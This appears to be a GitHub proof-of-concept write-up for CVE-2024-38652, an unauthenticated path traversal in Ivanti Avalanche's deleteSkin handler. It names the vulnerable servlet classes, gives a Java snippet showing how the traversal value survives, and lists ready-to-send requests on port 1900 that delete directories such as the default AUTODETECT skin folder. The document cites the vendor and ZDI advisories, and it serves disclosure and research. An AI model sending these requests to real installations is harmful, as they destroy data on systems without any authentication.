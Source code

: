 ## CVE-2024-38652
## VULNERABILITY DETAILS	

Ivanti Avalanche deleteSkin Directory Traversal Arbitrary File Deletion Vulnerability

This vulnerability allows remote attackers to delete arbitrary files on affected installations of Ivanti Avalanche. Authentication is not required to exploit this vulnerability.

The specific flaw exists within the deleteSkin method. The issue results from the lack of proper validation of a user-supplied path prior to using it in file operations. An attacker can leverage this vulnerability to delete files in the context of SYSTEM.

## VULNERABILITY
Ivanti Avalanche premise 6.3.1.1507 (tested)

Check C:\Program Files\Wavelink\Avalanche\RemoteControl\lib\RemoteControlServer.jar

com.wavelink.remotecontrol.server.servlets.SkinsServlet
![image](https://github.com/user-attachments/assets/ad7addb2-6768-4bf8-9b0a-a5a6f4889d0b)
![image](https://github.com/user-attachments/assets/1dc56de8-c766-4e49-a7ba-0f872f8c23a4)


## Example code
```
import java.io.File;
class HelloWorld {
    public static void main(String[] args) {
        File file = new File("", "..");
        System.out.println(file.getName());
        file = new File("./web/skins",file.getName());
        System.out.println(file);
    }
}
```
![image](https://github.com/user-attachments/assets/14a033a3-4a5d-4a84-9222-18646cd24f13)
![image](https://github.com/user-attachments/assets/df443415-48ba-46c3-90e7-c5d903774441)


## CVE-2024-38652-Poc

Request /Servlet/Skins?action=deleteSkin&guid=.. endpoint unauthenticated
```
<Host>:1900/Servlet/Skins?action=deleteSkin&guid=..
```
https://github.com/user-attachments/assets/d618690b-2a8a-472f-9d12-2cab703e6eb4



There is also an unauthenticated endpoint ``` <Host>:1900/app/rc?cmd=deleteSkin&guid={{directory}} ```  but has a valid directory check

Delete directory AUTODETECT with: ``` <Host>:1900/app/rc?cmd=deleteSkin&guid=AUTODETECT ```

directory AUTODETECT is default in C:\Program Files\Wavelink\Avalanche\RemoteControl\web\skins

Check file C:\Program Files\Wavelink\Avalanche\RemoteControl\app.war

com.wavelink.remotecontrol.app.servlets.RCServlet

## References:
- https://forums.ivanti.com/s/article/Security-Advisory-Ivanti-Avalanche-6-4-4-CVE-2024-38652-CVE-2024-38653-CVE-2024-36136-CVE-2024-37399-CVE-2024-37373?language=en_US
- https://www.zerodayinitiative.com/advisories/ZDI-24-1149/
